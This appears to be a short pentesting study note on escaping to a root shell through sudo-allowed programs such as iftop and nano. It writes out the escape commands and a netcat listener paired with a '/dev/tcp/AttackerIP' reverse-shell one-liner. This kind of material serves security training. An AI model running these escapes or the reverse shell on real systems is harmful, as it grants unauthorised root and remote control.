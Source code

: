 # shell escaping

start to know which process run with sudo privilege `sudo -l`

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

we will exploit all service

***

### Iftop

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo /usr/sbin/iftop
!/bin/sh
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

### awk

<figure><img src="../../../.gitbook/assets/image 3 (1) (1).png" alt=""><figcaption></figcaption></figure>

***

> may command line not suitable when as a root by nano service so let’s try to take a reverse shell

### nano

<figure><img src="../../../.gitbook/assets/image 4 (1).png" alt=""><figcaption></figcaption></figure>

```bash
sudo nano
ctrl+R
ctrl+x
reset; sh 1>&0 2>&0
```

which open a root shell but it’s blind which u can see the result only so let’s take a reverse shell on our machine

```bash
# attacker machine
nc -nlvp 5253
```

```bash
# victim
bash -i >& /dev/tcp/AttackerIP/5253 0>&1
```

<figure><img src="../../../.gitbook/assets/image 5 (1).png" alt=""><figcaption></figcaption></figure>
